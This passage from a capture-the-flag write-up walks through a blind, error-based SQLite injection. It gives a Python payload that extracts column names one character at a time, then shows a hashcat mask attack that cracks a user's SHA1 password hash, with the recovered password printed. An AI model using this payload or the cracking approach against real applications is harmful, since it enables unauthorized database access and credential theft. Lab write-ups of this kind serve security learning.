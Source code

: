**Found Tables**:

- `database`
- `stats`

### Extracting Column Names

Used `pragma_table_info(<table>)` to pull column names character by character:

```python
payload = (
    f"username=1111'+EXCEPT+SELECT+2,"
    f"CASE+WHEN+(SELECT+unicode(substr(name,{pos},1))={ascii_val}"
    f"+FROM+pragma_table_info('database')+LIMIT+1+OFFSET+{col_index})=1"
    f"+THEN+1+ELSE+load_extension(1)+END,3+FROM+database+LIMIT+1/*&password=no"
)
```

**Columns in `database`**: `user`, `pass`, `time`  
**Same for `stats`**

### Target User Discovery

Among many users, one stood out: `tuxtheflagmasteronlylikeslowercaseletters`.

This strongly hinted that the password is lowercase-only.

In the `stats` table, all user passwords were in plaintext except for **tux**’s, which was **SHA1-hashed**: `64b7c90a991571c107cc663aa768514822896f49`.

### Cracking the Hash

Using the hint in the username (`onlylikeslowercaseletters`), we optimized brute-force cracking: 
```bash
echo "64b7c90a991571c107cc663aa768514822896f49" > hash.txt
hashcat -m 100 -a 3 -o found.txt hash.txt '?l?l?l?l?l?l?l'
```

Cracked Password: `allsgud`

Logged in successfully!

![](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/TJCTF2025/Pasted%20image%2020250610200141.png?raw=true)